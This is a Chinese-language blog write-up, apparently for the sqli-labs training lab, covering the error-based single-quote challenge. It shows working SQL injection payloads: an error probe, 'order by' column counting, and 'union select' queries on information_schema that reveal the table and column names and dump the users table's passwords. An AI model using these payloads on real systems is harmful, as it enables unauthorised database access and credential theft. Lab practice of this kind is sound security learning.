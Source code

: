 ```yaml
---
title: sqli-labs全收集
date: 2022-08-12 19:03:18
tags:
- sql注入
- mysql
categories:
- web
- 题解
---
```


# Basic Challenges

### 01-Error Based-Single quotes

> **Error Based: 可以通过报错知道闭合方式**
>
> \> paylod: `?id=1') and ;--+`  
>
> 源码拼接后：
>
> ```sql
> SELECT * FROM users WHERE id=('$id') LIMIT 0,1;
> SELECT * FROM users WHERE id=('1') and ;-- ') LIMIT 0,1;
> ```
>
> \> err: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ';-- ') LIMIT 0,1' at line 1`
>
> 可见`')`就是闭合方式



`1' order by 4;--+`

+ 字段数为`3`

`-1' union select 1,database(),3;--+` 

+ 出库名` security` 

`-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security';--+`

+ 出表名`emails,referers,uagents,users`

`-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users';--+`

+ 出列名`id,username,password`

`-1' union select 1,group_concat(password),3 from users;--+`
